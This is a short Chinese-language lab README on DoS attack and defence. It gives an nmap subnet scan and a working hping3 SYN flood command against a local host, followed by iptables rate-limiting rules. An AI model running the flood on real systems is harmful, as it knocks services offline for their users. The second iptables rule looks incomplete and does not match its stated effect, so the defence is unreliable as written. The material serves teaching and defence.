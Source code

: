 # DoS攻擊與防護
## 攻擊端
攻擊端先利用nmap掃描啟動中的ip和正在啟用的端口 
```
nmap -O -p 80 192.168.0.* 
```
> 掃描192.168.0.0到192.168.0.255之間port為80的主機

例如找到192.168.0.121有開放80端口後開始使用hping3攻擊開始攻擊 
```
hping3 --flood -S -p 80 -d 120 -v 192.168.0.121 
```
> 利用泛洪方式攻擊192.168.0.121的80端口發送120BYTES大小的syn封包
  
## 防護端
### Linux的iptables
```
iptables -I INPUT -p tcp --dport 80 -m connlimit --connlimit-above 10 -j REJECT  
iptables -A INPUT -p tcp --dport 80 -m recent --name BAD_HTTP_ACCESS --update --second 6
```
上述兩個指令表達是在6秒內相同IP請求連線次數超過10個即拒絕回應

參考資料([Linux 下用 iptables 預防 DDOS](https://www.youtube.com/watch?v=ivcXCg2x05o))
## 影片說明
本次有實際防範影片，駭客用上述hping3的攻擊指令導致Http Server無法服務，但伺服器有在防火牆上做上述過濾規則，導致只有駭客IP被回絕的成效。   
成果影片：[DoS防護]https://www.youtube.com/watch?v=ivcXCg2x05o
